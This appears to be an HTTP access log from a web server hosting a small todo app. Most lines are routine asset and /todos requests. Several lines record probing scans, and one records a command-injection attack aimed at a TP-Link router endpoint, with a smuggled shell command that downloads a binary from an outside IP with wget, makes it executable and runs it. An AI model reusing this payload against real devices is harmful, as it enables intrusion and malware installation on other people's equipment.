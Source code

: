  INFO  Accepting connections at http://0.0.0.0:80
 HTTP  4/25/2024 10:39:26 PM 10.224.0.4 GET /static/css/main.5231334a.chunk.css
 HTTP  4/25/2024 10:39:26 PM 10.224.0.4 Returned 200 in 13 ms
 HTTP  4/25/2024 10:42:52 PM 10.244.0.4 GET /?XDEBUG_SESSION_START=phpstorm
 HTTP  4/25/2024 10:42:52 PM 10.244.0.4 Returned 200 in 3 ms
 HTTP  4/25/2024 10:47:58 PM 10.244.1.45 GET /?XDEBUG_SESSION_START=phpstorm
 HTTP  4/25/2024 10:47:58 PM 10.244.1.45 Returned 200 in 1 ms
 HTTP  4/25/2024 10:55:23 PM 10.224.0.4 GET /static/css/main.5231334a.chunk.css
 HTTP  4/25/2024 10:55:23 PM 10.224.0.4 Returned 200 in 1 ms
 HTTP  4/25/2024 11:10:05 PM 10.224.0.4 GET /
 HTTP  4/25/2024 11:10:05 PM 10.224.0.4 Returned 200 in 1 ms
 HTTP  4/25/2024 11:10:05 PM 10.224.0.4 GET /static/css/2.7f1403ef.chunk.css
 HTTP  4/25/2024 11:10:05 PM 10.224.0.4 Returned 200 in 2 ms
 HTTP  4/25/2024 11:10:05 PM 10.244.1.1 GET /static/css/main.5231334a.chunk.css
 HTTP  4/25/2024 11:10:05 PM 10.244.1.1 Returned 200 in 1 ms
 HTTP  4/25/2024 11:10:05 PM 10.244.1.1 GET /static/js/main.33b570de.chunk.js
 HTTP  4/25/2024 11:10:05 PM 10.244.1.1 Returned 200 in 1 ms
 HTTP  4/25/2024 11:10:05 PM 10.244.1.1 GET /favicon.ico
 HTTP  4/25/2024 11:10:05 PM 10.244.1.1 Returned 200 in 2 ms
 HTTP  4/25/2024 11:12:22 PM 10.224.0.5 GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(cd+%2Ftmp%3B+rm+-rf+shk%3B+wget+http%3A%2F%2F103.163.214.97%2Fshk%3B+chmod+777+shk%3B+.%2Fshk+tplink%3B+rm+-rf+shk)
 HTTP  4/25/2024 11:12:22 PM 10.224.0.5 Returned 200 in 1 ms
 HTTP  4/25/2024 11:19:20 PM 10.244.1.1 GET /static/css/main.5231334a.chunk.css
 HTTP  4/25/2024 11:19:20 PM 10.244.1.1 Returned 200 in 1 ms
 HTTP  4/25/2024 11:19:20 PM 10.244.1.1 GET /static/js/2.e988248f.chunk.js
 HTTP  4/25/2024 11:19:20 PM 10.244.1.1 Returned 200 in 2 ms
 HTTP  4/25/2024 11:19:20 PM 10.224.0.5 GET /static/js/main.33b570de.chunk.js
 HTTP  4/25/2024 11:19:20 PM 10.224.0.5 Returned 200 in 2 ms
 HTTP  4/25/2024 11:19:20 PM 10.244.1.1 GET /todos
 HTTP  4/25/2024 11:19:20 PM 10.244.1.1 Returned 200 in 1 ms
 HTTP  4/25/2024 11:26:27 PM 10.224.0.4 POST /todos/add
 HTTP  4/25/2024 11:26:27 PM 10.224.0.4 Returned 200 in 1 ms
 HTTP  4/25/2024 11:26:27 PM 10.224.0.4 GET /todos
 HTTP  4/25/2024 11:26:27 PM 10.224.0.4 Returned 200 in 0 ms
 HTTP  4/25/2024 11:29:24 PM 10.244.0.4 GET /todos/
 HTTP  4/25/2024 11:29:24 PM 10.244.0.4 Returned 200 in 1 ms
 HTTP  4/25/2024 11:35:15 PM 10.244.0.4 GET /todos/
 HTTP  4/25/2024 11:35:15 PM 10.244.0.4 Returned 200 in 1 ms
 HTTP  4/25/2024 11:44:52 PM 10.244.1.1 GET /todos
 HTTP  4/25/2024 11:44:52 PM 10.244.1.1 Returned 304 in 1 ms
 HTTP  4/25/2024 11:49:07 PM 10.244.2.65 GET /todos/
 HTTP  4/25/2024 11:49:07 PM 10.244.2.65 Returned 200 in 1 ms
 HTTP  4/25/2024 11:52:33 PM 10.244.2.65 GET /todos/
 HTTP  4/25/2024 11:52:33 PM 10.244.2.65 Returned 200 in 1 ms
 HTTP  4/25/2024 11:57:53 PM 10.244.2.65 GET /todos/
 HTTP  4/25/2024 11:57:53 PM 10.244.2.65 Returned 200 in 1 ms
 HTTP  4/26/2024 12:02:58 AM 10.244.0.4 GET /todos/
 HTTP  4/26/2024 12:02:58 AM 10.244.0.4 Returned 200 in 1 ms
